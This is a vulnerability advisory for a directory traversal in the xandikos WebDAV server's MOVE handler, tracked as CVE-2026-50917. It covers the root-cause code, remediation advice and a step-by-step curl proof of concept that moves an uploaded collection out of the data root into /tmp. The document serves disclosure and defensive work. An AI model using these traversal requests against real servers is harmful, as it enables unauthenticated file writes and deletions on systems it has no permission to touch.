




[CVE ID]

CVE-2026-50917

[PRODUCT]

xandikos (jelmer/xandikos)

[VERSION]

commit 7ab17e019fbba273ef02fd54aee1c76f54fd12a9 (merge commit, 2026-03-01; upstream fix d0e40ba, 2026-08-25, collapses `..` in `_map_to_file_path`)

[PROBLEM TYPE]

Directory Traversal (CWE-22) leading to Pre-Auth Arbitrary File Move/Write

# Description

The WebDAV `MOVE` method on a collection is the entry point. [`MoveMethod.handle()`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2049-L2085) in `xandikos/webdav.py` reads the client-controlled `Destination` header and reduces it to `dest_path = urllib.parse.urlparse(destination_header).path`. `urlparse` is purely syntactic, so `..` segments survive untouched, and the only checks on the path are a same-host comparison and [`app.check_access()`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2088), which inspects this literal un-normalized string (xandikos enables no authentication by default). The path is then handed to [`app.backend.move_collection()`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2114-L2117). In the filesystem backend, [`_map_to_file_path()`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/fs.py#L53-L55) joins the path to the backend root without any normalization:

```python
def _map_to_file_path(self, relpath: str) -> str:
    return os.path.join(self.path, relpath.lstrip("/"))
```

`lstrip("/")` only removes leading slashes, so a destination of `/../../tmp/x` maps to `<data_root>/../../tmp/x`. [`move_collection()`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/fs.py#L98-L136) deletes an existing target when `Overwrite: T` (the default) and relocates the collection with `shutil.move()`; the operating system resolves the retained `..` segments during the move, landing outside the served root. Because collection content can be planted beforehand with `PUT`, the combination forms an upload-then-move primitive that places attacker-controlled content at arbitrary filesystem paths writable by the server process. This is why the pinned commit is used for reproduction: upstream commit d0e40ba (2026-08-25) collapses `..` in `_map_to_file_path`, and current `ghcr.io/jelmer/xandikos:latest` images already contain the fix.

# Proof of Concept

## victim setup

Run the image built from the pinned commit (image retained on the reproduction host since its 2026-09-28 build, id `2503bb60e136`) with the data directory mounted at `/data` and port 34017 mapped to the WebDAV port 8000. `GET /` returning 200 is the readiness check. The pre-attack baseline shows the served root containing only the auto-created `user` tree and `/tmp` holding no attacker directory:

```bash
docker run --rm -d --name scdd_50917_xandikos -p 34017:8000 \
  -v /home/zian/scdd-cve-repro-202609/work/cve-2026-50917/xandikos_data:/data \
  -e AUTOCREATE=true -e DEFAULTS=true \
  scdd50917/xandikos:7ab17e019fbba273ef02fd54aee1c76f54fd12a9
curl -sS -o /dev/null -w '%{http_code}\n' http://127.0.0.1:34017/   # -> 200
```





## attack steps

The run uses `ts=1793688066` as its unique suffix: source collection `scdd_src_1793688066`, destination `scdd_50917_pwned_1793688066`, marker `CVE50917_MARKER_SCDD_XANDIKOS_MOVE_1793688066`. All three requests are unauthenticated:

1. Create a source collection to move:

	```bash
	curl -sS -X MKCOL http://127.0.0.1:34017/scdd_src_1793688066/ -H 'Content-Length: 0' -D - -o /dev/null
	```

2. Plant a 46-byte marker file inside it, so the moved content can later be identified by its bytes:

	```bash
	curl -sS -X PUT http://127.0.0.1:34017/scdd_src_1793688066/scdd_marker.txt \
	  -H 'Content-Type: text/plain; charset=utf-8' \
	  --data-binary $'CVE50917_MARKER_SCDD_XANDIKOS_MOVE_1793688066\n' -D - -o /dev/null
	```

3. Move the collection with a traversal `Destination`. The full URL is required by the same-host check; `/data` sits one level below the container root, so two `../` sequences reach `/` and the remaining extra sequences are harmless at the root. `Depth: infinity` is mandatory for collection MOVE (RFC 4918 9.9.2). All three requests answer `HTTP/1.1 201 Created`:

	```bash
	curl -sS -X MOVE http://127.0.0.1:34017/scdd_src_1793688066/ \
	  -H 'Destination: http://127.0.0.1:34017/../../tmp/scdd_50917_pwned_1793688066' \
	  -H 'Overwrite: T' -H 'Depth: infinity' -D - -o /dev/null
	```

	

4. Verify inside the container. The collection landed in `/tmp` with its content and internal `.git` intact, the marker reads back byte-for-byte, and the source is gone from the served root:

	```console
	$ ls -la /tmp/scdd_50917_pwned_1793688066/
	-rw-r--r-- 1 xandikos xandikos  46 Nov  3 06:41 scdd_marker.txt
	drwxr-xr-x 8 xandikos xandikos 4096 Nov  3 06:41 .git
	$ cat /tmp/scdd_50917_pwned_1793688066/scdd_marker.txt
	CVE50917_MARKER_SCDD_XANDIKOS_MOVE_1793688066
	$ test ! -e /data/scdd_src_1793688066 && echo "source collection no longer under /data (moved out of backend root)"
	source collection no longer under /data (moved out of backend root)
	```

	RESULT=VERIFIED: the marker was found at `/tmp/scdd_50917_pwned_1793688066/scdd_marker.txt`, outside the `/data` backend root.

	

# Impact

By sending a MOVE request with a traversal `Destination` header, an unauthenticated remote client who can reach the service can relocate any collection, together with attacker-planted content, to an arbitrary path writable by the server process:

- Arbitrary file move/write outside the backend root (demonstrated: marker collection relocated from `/data` to `/tmp` with content intact); the server process runs as the non-root `xandikos` user in the official container layout.
- `Overwrite: T` (the default) first deletes an existing target with `shutil.rmtree()`/`os.remove()`, adding an unauthenticated delete primitive for paths outside the root.
- Direct RCE was not demonstrated in this PoC, but planting content and moving it over service-reachable files is a plausible escalation path consistent with the CVE description.
- Current upstream (fix commit d0e40ba, 2026-08-25) collapses `..` within the backend root and is not affected.

# Occurrences

- [`xandikos/webdav.py L2049-L2085`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2049-L2085) — `MoveMethod.handle()`, `Destination` reduced via `urlparse().path` with no `..` stripping
- [`xandikos/webdav.py L2088`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2088) — `check_access()` inspects the literal un-normalized string
- [`xandikos/webdav.py L2114-L2117`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2114-L2117) — sink call into `backend.move_collection(source_path, dest_path, overwrite)`
- [`xandikos/fs.py L53-L55`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/fs.py#L53-L55) — `_map_to_file_path()`, `os.path.join` without normalization or containment check
- [`xandikos/fs.py L120-L136`](https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/fs.py#L120-L136) — pre-delete of existing target (`Overwrite: T`) and `shutil.move()` relocation

# Remediation

Recommended fixes:

- Normalize the destination path (`os.path.normpath` or equivalent) and reject any residual `..` segments before mapping it to the filesystem.
- Resolve the final target path and verify it stays inside the backend root before deleting or moving anything (the approach upstream adopted in d0e40ba).
- Run `check_access()` against the resolved target, not the literal header string, so traversal cannot bypass destination authorization.
